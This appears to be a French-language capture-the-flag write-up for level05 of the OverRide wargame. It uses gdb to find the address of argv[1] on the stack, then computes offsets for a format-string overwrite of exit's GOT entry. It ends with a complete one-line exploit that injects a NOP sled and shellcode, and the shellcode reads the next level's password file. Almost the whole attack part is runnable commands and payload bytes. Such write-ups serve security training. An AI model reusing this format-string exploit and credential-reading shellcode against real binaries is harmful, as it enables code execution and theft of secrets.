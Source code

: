 On cherche l'adresse d'argv[1] pour y ecrire le shellcode

```bash
level05@OverRide:~$ gdb -q level05 
Reading symbols from /home/users/level05/level05...(no debugging symbols found)...done.
(gdb) set disassembly-flavor intel
(gdb) b main
Breakpoint 1 at 0x8048449
(gdb) run AAAAAAAAAAAAAAAA
Starting program: /home/users/level05/level05 AAAAAAAAAAAAAAAA

Breakpoint 1, 0x08048449 in main ()
(gdb) x /150x $esp
    . . .
0xffffd8d0:	0x6c657665	0x41003530	0x41414141	0x41414141
0xffffd8e0:	0x41414141	0x00414141	0x4d524554	0x6574783d
    . . .
(gdb) x/s 0xffffd8e6
0xffffd8e6:	 "A"
```

argv[1][-1] = 0xffffd8e6 - 100 = 0xffffd882

exit :0x80497e0

octets poids faible : 0xd882 = 55426 - 8 = 55418
octets poids fort : 0xffff = 65535 - 55426 = 10109

```bash
python -c "print('\xe0\x97\x04\x08' + '\xe2\x97\x04\x08' + '%55418x' + '%10\$hn'+ '%10109x' + '%11\$hn')" | ./level05 $(python -c "print('\x90' * 100 + '\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level06/.pass')")
```